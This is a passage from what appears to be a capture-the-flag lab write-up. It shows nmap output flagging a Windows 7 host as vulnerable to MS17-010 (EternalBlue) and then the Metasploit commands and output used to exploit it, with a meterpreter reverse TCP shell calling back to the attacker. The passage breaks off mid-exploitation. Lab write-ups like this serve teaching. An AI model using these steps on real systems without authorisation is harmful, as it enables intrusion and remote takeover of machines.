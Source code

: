 ~~~ bash
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 192.92 seconds
~~~

This machine is vulnerable to the `smb-vuln-ms17-010` exploit, known in media as `EternalBlue`.  
It's can be done without Metasploit, of course, but it will be time consuming.  
I'll probably describe non-metasploit method next time.  

---

## Exploitation
Run Metasploit:
```
msfconsole

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Adapter names can be used for IP params set LHOST eth0

```
Setup the exploit:
```
msf5 > use windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.62.28
RHOSTS => 10.10.62.28
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0
LHOST => tun0
```
It should be fine as it is, but you also might need to change the LPORT too.
Hit `run`:
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.11.19.53:1337
[*] 10.10.62.28:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.62.28:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.62.28:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.62.28:445 - Connecting to target for exploitation.
[+] 10.10.62.28:445 - Connection established for exploitation.
[+] 10.10.62.28:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.62.28:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.62.28:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.62.28:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.62.28:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.62.28:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.62.28:445 - Trying exploit with 12 Groom Allocations.
```
